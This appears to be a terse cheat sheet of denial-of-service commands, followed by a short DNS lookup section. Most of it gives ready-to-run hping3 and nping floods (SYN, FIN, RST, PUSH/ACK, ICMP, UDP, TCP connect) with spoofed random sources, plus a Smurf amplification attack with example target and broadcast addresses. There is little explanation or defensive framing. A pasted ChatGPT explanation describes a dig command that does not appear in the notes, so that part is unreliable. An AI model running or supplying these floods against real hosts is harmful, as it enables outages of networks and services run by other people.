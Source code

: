 hping3 -8 0–100 -S 10.10.10.16 -V


FIN floods
$hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP
TCP RST Flood
$hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
PUSH and ACK Flood
$hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP
ICMP flood
$hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP
UDP Flood
–flood: sent packets as fast as possible
–rand-source: random source address
–udp: UDP mode
-p –destport: destination port (default 0)
$hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
SYN flood with spoofed IP – DoS using HPING3
$hping3 -S -P -U --flood -V --rand-source www.hping3testsite.com
TCP connect flood – DoS using NPING
$nping --tcp-connect -rate=90000 -c 900000 -q www.hping3testsite.com    

    
use routers broadcast IP address feature to send messages to multiple IP addresses 
use connection-less protocols that do not validate source IP addresses.
amplification techniques;Smurf attack(ICMP amplification), DNS amplification, and Fraggle attack(UDP amplification)
    

Smurf Attack
This command sends ping requests to broadcast IP(10.10.15.255) by spoofing target IP(10.10.15.152). 
All running hosts in this network reply to the target.
$hping3 --icmp --spoof TARGET_IP BROADCAST_IP
$hping3 --icmp --spoof 10.10.15.152 10.10.15.255
----------------------------------------------------------------------------------------------------
DNS lookups
$ whois www.alibaba.com

dig alibaba.com @8.8.8.8 #specify name server 8.8.8.8
dig @8.8.8.8 +short NS domain.com

#ChatGPT
The command you provided is using the dig utility, which stands for "domain information groper." It's a command-line tool used for querying DNS (Domain Name System) servers to retrieve DNS-related information about domain names. Let's break down the command:
dig: This is the command itself, indicating that you want to use the dig utility.
www.alibaba.com: This is the domain name you want to query for DNS information.
ANY: This is the type of DNS record you want to retrieve. The ANY type is used to request all available information for the specified domain.
+noall: This option instructs dig to exclude the default output, which provides a summary of the query.
+answer: This option tells dig to only display the answer section of the DNS response.
When you run this command, it queries the DNS server for the www.alibaba.com domain and requests all available DNS records. The response will show the DNS records associated with the domain in the answer section. These records can include information such as IP addresses, mail server addresses, and more.
Please note that the ANY query type is often not recommended due to potential security risks and the way some DNS servers respond to it. Some DNS servers may limit or filter responses to ANY queries to prevent unnecessary information disclosure.
